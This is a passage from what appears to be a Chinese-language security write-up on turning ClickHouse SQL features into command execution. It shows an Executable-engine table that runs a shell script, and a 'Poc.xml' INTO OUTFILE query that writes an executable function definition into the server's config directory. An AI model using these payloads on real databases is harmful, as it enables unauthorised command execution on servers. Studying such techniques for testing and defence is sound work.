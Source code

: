 您可以可选地包含一个或多个输入查询，将它们的输出流到 stdin，以便脚本读取。  
  
和0x03 executable 不同。这个Executable 是用来定义表引擎。  
```
CREATE TABLE shell_table (res String) ENGINE = Executable('test_shell.sh', TabSeparated,  (select 'echo hack by webchains-unam4'))select * from shell_table
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZxrAicQGIrRsvIgB56rxF5j9JDA600t4Uceab729ibC2dp5smMXcWFWoVQ/640?wx_fmt=png&from=appmsg "")  
### 0x05 INTO OUTFILE （输出的文件是到客户端）  
  
我门肯定是希望结局sql语句来完成 命令执行的，所以我们可以借助INTO OUTFILE 来创建 xml 以及 sh or python 脚本。所以这只能本地命令执行 有点鸡肋。  
  
https://clickhouse.com/docs/en/sql-reference/statements/select/into-outfile  
  
INTO OUTFILE  
 子句将 SELECT  
 查询的结果重定向到客户端的一个文件中。  
  
压缩文件受支持。压缩类型通过文件名扩展名检测（默认使用模式 'auto'  
 ）。或者可以在 COMPRESSION  
 子句中显式指定。可以在 LEVEL  
 子句中指定特定压缩类型的压缩级别。  
  
**语法**  
```
SELECT <expr_list> INTO OUTFILE file_name [AND STDOUT] [APPEND | TRUNCATE] [COMPRESSION type [LEVEL level]]
```  
  
file_name  
 和type  
是字符串字面量。支持的压缩类型有：'none'  
，'gzip'  
，'deflate'  
，'br'  
，'xz'  
，'zstd'  
，'lz4'  
，'bz2'  
 。  
  
level  
 是一个数值字面量。支持的后续范围的正整数包括： 1-12  
 用于 lz4  
 类型， 1-22  
 用于 zstd  
 类型，以及 1-9  
 用于其他压缩类型。  
  
Poc.xml  
```
select '<functions>    <function>        <type>executable</type>        <name>shell</name>        <return_type>String</return_type>        <format>raw</format>        <command>id</command>        <execute_direct>0</execute_direct>        <lifetime>1</lifetime>    </function></functions>' into outfile '/etc/clickhouse-server/shell_function.xml' TRUNCATE format raw
```  
  